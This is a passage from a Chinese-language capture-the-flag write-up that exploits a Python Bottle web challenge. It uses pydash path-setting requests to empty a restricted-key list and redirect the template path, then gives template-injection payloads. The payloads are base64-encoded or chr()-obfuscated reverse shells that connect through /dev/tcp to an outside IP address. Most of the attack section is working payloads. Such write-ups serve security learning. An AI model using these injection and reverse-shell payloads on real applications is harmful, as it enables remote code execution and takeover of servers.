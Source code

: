 ```py
def _raise_if_restricted_key(key):
	# Prevent access to restricted keys for security reasons.
	if key in RESTRICTED_KEYS:
		raise KeyError(f"access to restricted key {key!r} is not allowed")
```

所以可以先利⽤这个setval将RESTRICTED_KEYS修改

![image-20250325093112295](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503250931489.png)

```
/setValue?name=pydash
{"path":"helpers.RESTRICTED_KEYS","value":[]}
```

然后再去修改

![image-20250325155830121](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503251558265.png)

```
/setValue?name=setval
{"path":"__globals__.bottle.TEMPLATE_PATH","value":["../../../../../proc/self/"]}
```

然后在/render路由get传参，得到flag

![image-20250325155959467](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503251559549.png)

##### 非预期解

在**`Bottle`** 的默认模板引擎 **`SimpleTemplate`**，支持类似于 <% 和 %> 的语法来嵌入和执行 Python 代码，所以直接在render路由传参数然后反弹shell即可

payload1

```
<% from os import system
from base64 import b64encode, b64decode
print(b64decode('YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC82MC4yMDQuMTU4Ljg3LzIzMzMgMD4mMSI=')
%>
```

payload2

```
<% getattr(__import__('o'+'s'), 'sy'+'stem')(chr(98)+chr(97)+chr(115)+chr(104)+chr(32)+chr(45)+chr(99)+chr(32)+chr(34)+chr(98)+chr(97)+chr(115)+chr(104)+chr(32)+chr(45)+chr(105)+chr(32)+chr(62)+chr(38)+chr(32)+chr(47)+chr(100)+chr(101)+chr(118)+chr(47)+chr(116)+chr(99)+chr(112)+chr(47)+chr(49)+chr(49)+chr(51)+chr(46)+chr(52)+chr(52)+chr(46)+chr(49)+chr(53)+chr(56)+chr(46)+chr(55)+chr(50)+chr(47)+chr(49)+chr(49)+chr(52)+chr(53)+chr(49)+chr(32)+chr(48)+chr(62)+chr(38)+chr(49)+chr(34)) %>
```



#### internal_api（利⽤ HTTP Status Code 进⾏ XSLeaks）



#### H2 Revenge
